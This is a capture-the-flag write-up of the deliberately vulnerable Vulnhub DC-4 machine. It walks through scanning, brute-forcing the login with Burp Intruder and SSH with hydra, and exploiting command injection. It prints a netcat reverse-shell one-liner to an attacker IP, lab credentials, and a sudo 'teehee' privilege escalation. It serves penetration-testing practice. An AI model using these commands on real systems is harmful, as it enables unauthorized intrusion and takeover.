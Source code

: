 ```yaml
---
"title": "Vulnhub - DC 4"
"date": 2019-11-18
"tags": ["easy", "hydra", "intruder"]
"keywords": ["easy", "hydra", "intruder"]
"categories": "Vulnhub"
"author": "Ghostbyt3"
"description": "We are going to pwn DC 4 by DCAU7 from Vulnhub"
"featured_image": "/img/dc4/1.1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc4/1.1.png)
We are going to pwn DC 4 by DCAU7 from Vulnhub


## Description
>DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
Unlike the previous DC releases, this one is designed primarily for  beginners/intermediates. There is only one flag, but technically,  multiple entry points and just like last time, no clues.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.


Download Link: [https://www.vulnhub.com/entry/dc-4,313/](https://www.vulnhub.com/entry/dc-4,313/)

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.8
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/26 19:35:19 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/26 19:35:20 Finished
===============================================================
```

![Untitled](/img/dc4/1.png)

It looks like login Page 
So i tried some normal sql injection but none worked so lets try bruteforce
We can use Burp Intruder for that

![Untitled](/img/dc4/2.png)

Attack type : Cluster Bomb

![Untitled](/img/dc4/3.png)

Now in payload , load wordlist and start attack!

![Untitled](/img/dc4/4.png)

This one gives different length it might be the password [br/](br/)
![Untitled](/img/dc4/5.png)

And yes I logged in.
After login I got a page Command.php[br/](br/)
![Untitled](/img/dc4/6.png)[br/](br/)
![Untitled](/img/dc4/7.png)

## Getting Shell

It looks like , it executes system commands.
So I intercept the command with burp and got a reverse shell.
![Untitled](/img/dc4/8.png)

> nc -e /bin/sh 10.0.2.18 1234 


![Untitled](/img/dc4/9.png)

We got a Shell!!

![Untitled](/img/dc4/10.png)

So while searching for anything usefull i found ``old-passwords.bak``

Since i found it in jim directory, lets bruteforce with ``jim``

## Getting User Jim

Lets start bruteforcing the ssh port using hydra

> hydra - a very fast network logon cracker which supports many different services

![Untitled](/img/dc4/11.png)

we found the password is ``jim:jibril04``

Found some users too

![Untitled](/img/dc4/12.png)

## Getting User Charles

While Checking jim directory there is ``mbox``

![Untitled](/img/dc4/13.png)

Since it looks like mail we check ``/var/mail``

![Untitled](/img/dc4/14.png)

It gives password for ``charles`` I su to charles

## Privilege Escalation

``sudo -l`` shows we can run ``teehee`` with root permission

![Untitled](/img/dc4/15.png)

It looks like we can overwrite any file so i created new user with root permission without password!

Got ROOT !!

``Flag``

![Untitled](/img/dc4/16.png)






